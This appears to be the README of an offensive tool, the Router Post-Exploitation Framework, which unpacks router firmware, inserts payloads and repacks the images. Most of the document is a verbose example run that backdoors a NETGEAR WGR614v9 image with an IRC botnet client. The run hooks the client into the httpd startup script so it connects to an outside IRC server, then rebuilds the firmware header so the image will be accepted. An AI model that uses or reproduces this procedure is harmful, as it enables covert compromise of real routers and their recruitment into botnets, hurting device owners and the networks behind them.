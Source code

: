 Router Post-Exploitation Framework
==================================

Currently, the framework includes a number of firmware image modules:

    'Verified'   - This module is confirmed to work and is stable.

    'Unverified' - This module is believed to work or should work with
                   little additional effort, but awaits being tested on a
                   physical device.

    'Testing'    - This module is currently undergoing development and is
                   unstable for the time being.  Users should consider this
                   module a "work in progress."

    'Roadblock'  - Issues have halted progress on this module for the time
                   being.  Certain unavailable utilities or significant
                   reverse engineering work may be necessary.

For a list of options, run:

    ./rpef.py -h

For a list of all currently supported firmware targets, run:

    ./rpef.py -ll


A little architecture
---------------------

The script is written for Python 2.6 and may require the installation of
a few modules.  It is typically invoked as:

    ./rpef.py <firmware image> <output file> <payload>

and accepts a number of optional switches (see -h).

The rules/ directory stores a hierarchy of rules/<vendor>/<module>
directories.  One module correlates to one firmware checksum (not to one
specific router) since multiple routers have been observed to run the
exact same firmware.  Within each module is properties.json which stores
the language and order of operations necessary to unpackage, backdoor,
and repackage the target firmware image.  The payloads/ directory stores
cross-compiled binaries ready for deployment, and the optional
dependencies/ directory stores miscellaneous files to aid the process.

The utilities/ directory stores pre-compiled x86 binaries to perform
tasks such as packing/unpacking filesystems, compressing/decompressing
data (for which no suitable .py module exists), and calculating
checksums.

The payloads_src/ directory stores source code for the payloads
themselves.  All payloads are written from scratch to keep them as small
as possible.


Usage
-----

To verbosely generate a firmware image for the WGR614v9 backdoored with a botnet client, run:

    ./rpef.py WGR614v9-V1.2.30_41.0.44NA.chk WGR614v9-V1.2.30_41.0.44NA_botnet.chk botnet -v

And the process should proceed as follows:

    $ ./rpef.py WGR614v9-V1.2.30_41.0.44NA.chk WGR614v9-V1.2.30_41.0.44NA_botnet.chk botnet -v
    [+] Verifying checksum
        Calculated checksum: 767c962037b32a5e800c3ff94a45e85e
        Matched target: NETGEAR WGR614v9 1.2.30NA (Verified)
    [+] Extracting parts from firmware image
        Step 1: Extract WGR614v9-V1.2.30_41.0.44NA.chk, Offset 58, Size 456708 -> /tmp/tmpOaw1tn/headerkernel.bin
        Step 2: Extract WGR614v9-V1.2.30_41.0.44NA.chk, Offset 456766, Size 1476831 -> /tmp/tmpOaw1tn/filesystem.bin
    [+] Unpacking filesystem
        Step 1: unsquashfs-1.0 /tmp/tmpOaw1tn/filesystem.bin -> /tmp/tmpOaw1tn/extracted_fs
            Executing: utilities/unsquashfs-1.0 -dest /tmp/tmpOaw1tn/extracted_fs /tmp/tmpOaw1tn/filesystem.bin
            
            created 217 files
            created 27 directories
            created 48 symlinks
            created 0 devices
            created 0 fifos
    [+] Inserting payload
        Step 1: Rm /tmp/tmpOaw1tn/extracted_fs/lib/modules/2.4.20/kernel/net/ipv4/opendns/openDNS_hijack.o
        Step 2: Copy rules/NETGEAR/WGR614v9_1.2.30NA/payloads/botnet /tmp/tmpOaw1tn/extracted_fs/usr/sbin/botnet
        Step 3: Move /tmp/tmpOaw1tn/extracted_fs/usr/sbin/httpd /tmp/tmpOaw1tn/extracted_fs/usr/sbin/httpd.bak
        Step 4: Touch /tmp/tmpOaw1tn/extracted_fs/usr/sbin/httpd
        Step 5: Appendtext "#!/bin/msh
    " >> /tmp/tmpOaw1tn/extracted_fs/usr/sbin/httpd
    [+] INPUT REQUIRED, IP address of IRC server: 1.2.3.4
    [+] INPUT REQUIRED, Port of IRC server: 6667
    [+] INPUT REQUIRED, Channel to join (include #): #hax      
    [+] INPUT REQUIRED, Prefix of bot nick: toteawesome
        Step 6: Appendtext "/usr/sbin/botnet 1.2.3.4 6667 \#hax toteawesome &
    " >> /tmp/tmpOaw1tn/extracted_fs/usr/sbin/httpd
        Step 7: Appendtext "/usr/sbin/httpd.bak
    " >> /tmp/tmpOaw1tn/extracted_fs/usr/sbin/httpd
        Step 8: Chmod 777 /tmp/tmpOaw1tn/extracted_fs/usr/sbin/httpd
    [+] Building filesystem
        Step 1: mksquashfs-2.1 /tmp/tmpOaw1tn/extracted_fs, Blocksize 65536, Little endian -> /tmp/tmpOaw1tn/newfs.bin
            Executing: utilities/mksquashfs-2.1 /tmp/tmpOaw1tn/extracted_fs /tmp/tmpOaw1tn/newfs.bin -b 65536 -root-owned -le
            Creating little endian 2.1 filesystem on /tmp/tmpOaw1tn/newfs.bin, block size 65536.
            
            Little endian filesystem, data block size 65536, compressed data, compressed metadata, compressed fragments
            Filesystem size 1442.99 Kbytes (1.41 Mbytes)
                29.38% of uncompressed filesystem size (4912.18 Kbytes)
            Inode table size 2245 bytes (2.19 Kbytes)
                33.63% of uncompressed inode table size (6675 bytes)
            Directory table size 2322 bytes (2.27 Kbytes)
                55.26% of uncompressed directory table size (4202 bytes)
            Number of duplicate files found 3
            Number of inodes 293
            Number of files 218
            Number of fragments 22
            Number of symbolic links  48
            Number of device nodes 0
            Number of fifo nodes 0
            Number of socket nodes 0
            Number of directories 27
            Number of uids 1
                root (0)
            Number of gids 0
    [+] Gluing parts together
        Step 1: Touch WGR614v9-V1.2.30_41.0.44NA_botnet.chk
        Step 2: Appendfile /tmp/tmpOaw1tn/headerkernel.bin >> WGR614v9-V1.2.30_41.0.44NA_botnet.chk
        Step 3: Appendfile /tmp/tmpOaw1tn/newfs.bin >> WGR614v9-V1.2.30_41.0.44NA_botnet.chk
    [+] Padding image with null bytes
        Step 1: Pad WGR614v9-V1.2.30_41.0.44NA_botnet.chk to size 1937408 with 0 (0x00)
    [+] Generating CHK header
        Step 1: packet WGR614v9-V1.2.30_41.0.44NA_botnet.chk rules/NETGEAR/WGR614v9_1.2.30NA/dependencies/compatible_NA.txt rules/NETGEAR/WGR614v9_1.2.30NA/dependencies/ambitCfg.h
            Executing: utilities/packet -k WGR614v9-V1.2.30_41.0.44NA_botnet.chk -b rules/NETGEAR/WGR614v9_1.2.30NA/dependencies/compatible_NA.txt -i rules/NETGEAR/WGR614v9_1.2.30NA/dependencies/ambitCfg.h
    [+] Removing temporary files
        Step 1: Rmdir /tmp/tmpOaw1tn/

